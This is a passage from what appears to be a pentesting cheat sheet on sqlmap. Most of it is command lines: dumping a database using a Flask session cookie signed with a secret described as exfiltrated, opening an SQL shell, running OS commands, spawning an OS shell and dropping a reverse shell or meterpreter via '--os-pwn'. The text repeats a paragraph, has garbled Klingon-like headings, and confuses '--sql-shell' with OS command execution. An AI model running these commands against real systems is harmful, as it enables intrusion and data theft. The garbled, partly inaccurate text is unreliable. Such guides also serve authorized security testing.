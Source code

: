 **Sqlmap** allows the use of `-e` or `--eval` to process each payload before sending it with some python oneliner. This makes very easy and fast to process in custom ways the payload before sending it. In the following example the **flask cookie session** **is signed by flask with the known secret before sending it**:

### Eval

**Sqlmap** allows the use of `-e` or `--eval` to process each payload before sending it with some python oneliner. This makes very easy and fast to process in custom ways the payload before sending it. In the following example the **flask cookie session** **is signed by flask with the known secret before sending it**:
```bash
sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump
```
### Qap

The `shell` command in SQLMap is used to execute a command on the target system through a SQL injection vulnerability. This command allows the attacker to gain remote access to the target system and execute arbitrary commands.

To use the `shell` command, you need to first identify a SQL injection vulnerability on the target website using SQLMap's other techniques. Once you have identified the vulnerability, you can use the `--sql-shell` option followed by the vulnerable parameter to launch the shell.

Here is an example of how to use the `shell` command:

```
sqlmap -u "http://example.com/vulnerable.php?id=1" --sql-shell
```

In this example, `http://example.com/vulnerable.php?id=1` is the URL of the vulnerable page, and `id` is the parameter that is vulnerable to SQL injection. SQLMap will exploit the vulnerability and provide you with an interactive shell prompt where you can execute commands on the target system.

Once you have gained access to the shell, you can execute various commands to gather information, escalate privileges, or perform other malicious activities on the target system.

It is important to note that using the `shell` command can be highly illegal and unethical if done without proper authorization. Always ensure that you have the necessary permissions and legal rights before attempting any form of hacking or unauthorized access.
```bash
#Exec command
python sqlmap.py -u "http://example.com/?id=1" -p id --os-cmd whoami

#Simple Shell
python sqlmap.py -u "http://example.com/?id=1" -p id --os-shell

#Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1" -p id --os-pwn
```
### QaD lo'wI'vam

#### QaD
